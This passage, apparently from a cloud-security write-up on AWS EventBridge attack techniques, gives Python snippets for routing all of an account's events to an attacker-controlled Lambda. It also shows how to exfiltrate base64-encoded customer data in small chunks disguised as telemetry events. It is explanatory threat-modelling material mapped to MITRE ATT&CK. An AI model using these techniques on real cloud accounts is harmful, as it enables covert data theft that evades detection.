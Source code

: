 'Arn': 'arn:aws:lambda:region:victim-account:function:attacker-controlled-lambda'
}]
)
The Python code above shows how an attacker that has compromised a lambda in the victim's account with large permissions, creates an EventBridge rule with an empty pattern to capture all events, then targets it to a Lambda function they control.
The attacker's Lambda function then processes these events and either stores the information for later retrieval or sends it to an external system. The empty event pattern (`{"source": [{"exists": true}]}`) matches all standard events (with source in it), providing the attacker with a complete view of all event activity within the account. Attackers can use this information to completely map the victim’s environment(s). Events may contain sensitive operational data, credentials, or business information that can be used to plan more sophisticated attacks.
### Attack 4: Data Exfiltration - "Smuggling Data Out"
**MITRE ATT &CK Connection:**Exfiltration Over Alternative Protocol (T1048), Data Transfer Size Limits (T1030)
Attackers can steal sensitive data by breaking data into small pieces and sending it through EventBridge events, avoiding detection systems that look for large data transfers. This technique exploits the fact that EventBridge is designed for small, frequent event messages and is rarely monitored for data exfiltration.
+------------------+ +-------------------+ +------------------+
| Sensitive Data | | Break Into | | Send as |
| in Victim +------->| Small Chunks +------->| Multiple |
| Account | | | | Events |
+------------------+ +-------------------+ +--------+---------+
|
v
+------------------+ +-------------------+ +--------+---------+
| Reassemble | | Attacker's | | Cross-Account |
| Complete |<-------+ Account |<-------+ EventBridge |
| Data | | | | or Lambda |
+------------------+ +-------------------+ +------------------+
Data Exfiltration Flow
# Access sensitive customer data
customer_data = get_sensitive_data()
encoded_data = base64.b64encode(customer_data).decode()
# Break into small chunks to avoid detection
chunks = [encoded_data[i:i+100] for i in range(0, len(encoded_data), 100)]
# Send each chunk in a separate event
for i, chunk in enumerate(chunks):
events.put_events(
Entries=[{
'Source': 'app.telemetry',
'DetailType': 'MetricsUpdate',
'Detail': json.dumps({
'service': 'user-api',
'metrics': {
'requestCount': 42,
'errorRate': 0.01,
'meta': chunk # Hidden data
},
'sequence': i
})
}]